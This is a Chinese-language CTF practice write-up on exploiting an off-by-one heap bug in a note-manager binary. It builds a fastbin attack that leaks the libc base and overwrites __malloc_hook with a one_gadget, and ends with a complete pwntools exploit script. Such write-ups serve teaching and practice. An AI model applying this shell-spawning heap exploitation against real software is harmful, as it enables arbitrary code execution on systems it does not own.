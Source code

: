 # 标题

> practice-offbyone

## **原理**
offbyone+fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb

## **步骤**

看一下代码：

![](./pic/1.png)

看到edit中有一个 strlen函数到 `\0` 结束，但是read函数 不会在字符串的结尾加上 `\0`。我们可以进行 offbyone。

- 首先，我们先malloc5个堆块，然后释放掉 堆块1。

```
add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

delete(1)
```

堆块1会被放入到 unsortedbin中，在这道题中 我们无法打印被delete掉堆块的内容。所以我们接下来进行offbyone的利用。

注：为什么把堆块malloc一个这样的大小，是因为这样生成的堆块会复用prev_size。因为 64位的系统是 16字节对齐，表示 真实分配的堆块大小必须是16字节的倍数，所以当你申请0x100-8 这个大小的堆块时，如果 实际分配 0x100-8+8*2（加上prevsize+size） 大小的话，就不是16字节对齐了，所以采用复用prevsize，的方式，这样就能字节对齐了。同时也只有这种情况，能在堆上利用offbyone。

![](./pic/3.png)

- 接下来利用offbyone的思路是这样的，如下图所示：

![](./pic/4.png)

通过修改 被free掉的堆块的size部分，使之变大。面积可以覆盖到下一个没有被free掉的堆块

```
edit(0,'a'*0x28+'\x71') #将这个块的size 改成0x171
edit(2,'a'*0x60+p64(0x170)+'\x70') 

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)
```
我们free掉 堆块1之后，改变了堆块1的大小，这样我们再malloc一个和先前堆块1一样的大小的堆块时，就会在unsorted bin中选一个堆块，切掉需要的大小，再将余下的部分放回 unsortedbin中。看下图：

![](./pic/5.png)

由上图可见，我们并没有将堆块2 free掉，但是经过刚才的处理，他出现在了unsorted bin中。这样我们再show(2)，就能得到 main_arena+88的地址，进而得到libc的地址。

- 接下来我们要进行fastbin attack 

```
add(0x60,'a'*0x60)# 5 == 2

delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,+'a'*0x60)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)
```

这里有一个问题就是为什么，要delete两次来触发 one_gadget。是因为所有的one_gadget都不能用，所以我们是通过malloc_printerr的方式触发，这样成功的可能性更大。

完整的exp：

```
from pwn import *

def add(size,note):
	p.sendlineafter(">> ","1")
	p.sendlineafter("length: ",str(size))
	p.sendafter("note:",note)

def edit(index,note):
	p.sendlineafter(">> ","2")
	p.sendlineafter("index: ",str(index))
	p.sendafter("note:",note)

def delete(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("index: ",str(index))

def show(index):
	p.sendlineafter(">> ","4")
	p.sendlineafter("index: ",str(index))




libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p=process('./offbyone')

add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

#gdb.attach(p)
#raw_input()
delete(1)
edit(0,'a'*0x28+'\x71') #
edit(2,'a'*0x60+p64(0x170)+'\x70')#标志 堆块2 是一个空闲的值

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)

libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
print hex(libc_base)

system=libc_base+libc.symbols['system']
print "system",hex(system)


malloc_hook=libc_base+libc.symbols['__malloc_hook']


one_gadget=libc_base+0xf02a4

add(0x60,'a'*0x60)#5 == 2

# fastbin attack
delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,'/bin/sh\x00'+'a'*0x58)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)

p.interactive()

```
## **参考阅读**

